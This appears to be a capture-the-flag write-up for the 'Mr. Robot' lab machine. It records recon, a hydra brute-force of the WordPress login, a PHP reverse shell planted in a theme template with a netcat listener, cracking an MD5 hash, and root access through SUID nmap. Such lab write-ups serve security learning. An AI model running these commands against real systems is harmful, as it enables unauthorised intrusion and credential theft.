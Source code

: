 # Mr. Robot

Notes on the CTF.

## Recon

### nmap 

`nmap -A TARGET_IP`

```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 02:E1:1E:47:30:93 (Unknown)
Device type: general purpose|specialized|storage-misc|WAP|broadband router|printer
Running (JUST GUESSING): Linux 3.X|4.X|2.6.X (96%), Crestron 2-Series (89%), HP embedded (89%), Asus embedded (88%)
OS CPE: cpe:/o:linux:linux_kernel:3.13 cpe:/o:linux:linux_kernel:4 cpe:/o:crestron:2_series cpe:/h:hp:p2000_g3 cpe:/o:linux:linux_kernel:2.6.22 cpe:/o:linux:linux_kernel:3 cpe:/h:asus:rt-n56u cpe:/o:linux:linux_kernel:3.4
Aggressive OS guesses: Linux 3.13 (96%), Linux 3.10 - 4.8 (90%), Linux 3.12 (90%), Linux 3.13 or 4.2 (90%), Linux 3.2 - 3.5 (90%), Linux 3.2 - 3.8 (90%), Linux 4.4 (90%), Crestron XPanel control system (89%), Linux 4.2 (89%), HP P2000 G3 NAS device (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.37 ms ip-10-10-200-158.eu-west-1.compute.internal (TARGET_IP)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.28 seconds
```

### gobuster
There is a lot of output. 

`$ gobuster dir -u TARGET_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt`

```
/images (Status: 301)
/blog (Status: 301)
/sitemap (Status: 200)
/rss (Status: 301)
/login (Status: 302)
/video (Status: 301)
/0 (Status: 301)
/feed (Status: 301)
/image (Status: 301)
/atom (Status: 301)
/wp-content (Status: 301)
/admin (Status: 301)
/audio (Status: 301)
/intro (Status: 200)
/wp-login (Status: 200)
/css (Status: 301)
/rss2 (Status: 301)
/license (Status: 200)
/wp-includes (Status: 301)
/js (Status: 301)
/Image (Status: 301)
/rdf (Status: 301)
/page1 (Status: 301)
/readme (Status: 200)
/robots (Status: 200)
/dashboard (Status: 302)
```


### website

`80` and `443` host the same site, it has an interactive thing that is designed to look like a terminal. The source code doesn't have anything useful. 

Putting in an invalid subdirectory shows us that it is a Wordpress site. 

This leads to a login page:
http://TARGET_IP/wp-login.php ...


http://TARGET_IP/robots:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

http://TARGET_IP/fsocity.dic is a wordlist (careful: fsocity != fsociety)


## Getting onto the site

Try logging in with any test credentials and capture the request in BurpSuite.
http://TARGET_IP/wp-login.php 

```
POST /wp-login.php HTTP/1.1
Host: TARGET_IP
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://TARGET_IP
Connection: close
Referer: http://TARGET_IP/wp-login.php
Cookie: wordpress_test_cookie=WP+Cookie+check; s_cc=true; s_fid=28D2771EFD4C007C-10EA05B4F63E34A4; s_nr=1687561484752; s_sq=%5B%5BB%5D%5D
Upgrade-Insecure-Requests: 1

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2FTARGET_IP%2Fwp-admin%2F&testcookie=1
```
### hydra
For username:

`$ hydra -L fsocity.dic -p test TARGET_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username"`

```
[80][http-post-form] host: TARGET_IP   login: Elliot   password: test
```

For password:

`$ tac fsocity.dic > f2.dic` to reverse wordlist. I will run a dictionary attack from both sides. 

`$ hydra -l Elliot -P fsocity.dic TARGET_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:incorrect."`

`$ hydra -l Elliot -P f2.dic TARGET_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:incorrect."`


`[80][http-post-form] host: TARGET_IP   login: Elliot   password: ER28-0652`

## Gaining access to the machine

Version 4.3.1

`.php`, `.phtml`, is not allowed to be uploaded on a Wordpress post. 

`http://TARGET_IP/wp-admin/theme-editor.php?file=404.php&theme=twentyfifteen` by going to Appearance -> Editor -> 404 template.
Paste a PHP reverse shell into template. 

`$ nc -nvlp 9001`

Got to http://TARGET_IP/notarealpage to get the 404 PHP to run. We now have a shell as daemon. 

### Stabalize the shell

`$ python3 -c 'import pty;pty.spawn("/bin/bash")'`
Ctrl+z
`$ stty raw -echo; fg`
`$ export TERM=xterm`


## Escalation

`/home/robot`

```
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

`$ hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt`

abcdefghijklmnopqrstuvwxyz

`$ su robot`


### Exploring options

Go back to daemon.

`$ uname -a`
```
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
```
CVE-2015-8660?

`$ find / -perm -4000 2>/dev/null`

```
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```

`/usr/local/bin/nmap` is out of the ordinary.
https://gtfobins.github.io/gtfobins/nmap/#suid

`$ nmap --interactive`

`> !sh` (Doesn't work with `!bash`)

And now we have root. 
